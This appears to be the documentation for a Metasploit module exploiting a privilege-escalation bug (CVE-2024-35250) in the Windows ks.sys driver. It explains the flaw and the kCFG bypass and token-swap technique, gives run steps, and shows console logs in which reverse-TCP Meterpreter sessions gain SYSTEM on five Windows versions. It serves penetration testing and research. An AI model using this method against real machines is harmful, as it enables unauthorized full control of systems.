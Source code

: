 ## Vulnerable Application

The ks.sys driver on Windows is one of the core components of Kernel Streaming and is installed by default. There exists
an Access Mode Mismatch LPE in this driver which can be exploited on some of the latest versions of Windows including:

- Windows 11 22H2,
- Windows 10 22H2
- Windows 10 1607
- Windows Server 2022
- Windows Server 2016

### About the Bug Class

Access Mode Mismatch bugs in the Windows kernel center around the PreviousMode member of the `KTHREAD` structure. Every
thread has a previous access mode associated with it. The PreviousMode is set to UserMode(1) if a user operates on a
device or file through Nt* System Service Call, indicating that the System Service call is from the user. The
PreviousMode
is set to KernelMode(2) if for example a device driver invoking the Zw* System Service Call.

RequestorMode is a similar field in the I/O Request Packet (IRP) which indicates if the original request came from
KernelMode or UserMode. This commonly used field is typically derived from PreviousMode.

### About the Vulnerability

An application can use `IOCTL_KS_PROPERTY` to get or set properties, or to determine the properties supported by a KS
object. An application passes `IOCTL_KS_PROPERTY` to the `ks!KsSynchronousIoControlDevice` with a few parameters:
Major Code, Input Buffer, Input Buffer Length, Output Buffer, Output Buffer Length and Status Code. To improve
efficiency in `IOCTL_KS_PROPERTY` of Kernel Streaming, the requests `KSPROPERTY_TYPE_SERIALIZESET` and
`KSPROPERTY_TYPE_UNSERIALIZESET` are provided to allow users to operate on multiple properties in a single call.

The vulnerability stems from the driver's use of the function `ks!KsSynchronousIoControlDevice`. There are multiple
calls
to this function throughout the driver which incorrectly hard code the RequestorMode parameter value KernelMode. The
vulnerable function `ks!KsSynchronousIoControlDevice` can be invoked by issuing a `KSPROPERTY_TYPE_UNSERIALIZESET`
request
in which user controlled parameters are handled with KernelMode privileges specifically when the property is set to
`KSPROPSETID_DrmAudioStream`. This provides a primitive that allows users to perform arbitrary `IOCTL_KS_PROPERTY`
operations.

To achieve EoP with this primitive first kCFG must be bypassed. By using the legitimate function `RtlSetAllBits` from
ntoskrnl.exe, the arbitrary `IOCTL_KS_PROPERTY` operation can be turned into a arbitrary write primitive which can be
used
to achieve EoP by whatever typical method the user prefers. This module uses the write primitive to replace the
current process token with a system token. Abusing token privileges is also an option.

### Setup

Install Windows 10 22H2 (before 10.0.19045.4529) on any HyperVisor other than Hyper-V. Hyper-V does not have an audio
device by default, causing the exploit to fail.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_35250_ks_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios

### Windows 10 22H2 (10.0 Build 19045)

```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 19045
[*] Launching notepad to   host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 1012
[*] Reflectively injecting the DLL into 1012...
[*] Sending stage (201798 bytes) to 192.168.123.236
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.236:49676) at 2024-11-04 09:47:50 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-0OPTL76
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Windows 10 1607 (10.0 Build 14393)

```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4272
[*] Reflectively injecting the DLL into 4272...
[*] Sending stage (201798 bytes) to 192.168.123.240
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.240:49675) at 2024-11-05 10:19:30 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-4A5TFR5
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 22H2 (10.0 Build 22621)

```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 22621
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 6948
[*] Reflectively injecting the DLL into 6948...
[*] Sending stage (201798 bytes) to 192.168.123.1
[*] Meterpreter session 7 opened (192.168.123.1:5555 -> 192.168.123.1:52543) at 2024-11-04 11:22:59 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 11 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (10.0 Build 20348)

```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 20348
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 7336
[*] Reflectively injecting the DLL into 7336...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 3 opened (172.16.199.1:5555 -> 172.16.199.132:49977) at 2024-11-05 10:03:36 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-LBHI5KSJDU4
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2016 (10.0 Build 14393)

```
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 316
[*] Reflectively injecting the DLL into 316...
[*] Sending stage (201798 bytes) to 172.16.199.135
[*] Meterpreter session 7 opened (172.16.199.1:5555 -> 172.16.199.135:49691) at 2024-11-05 13:48:17 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-4DS9S9C0JSC
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

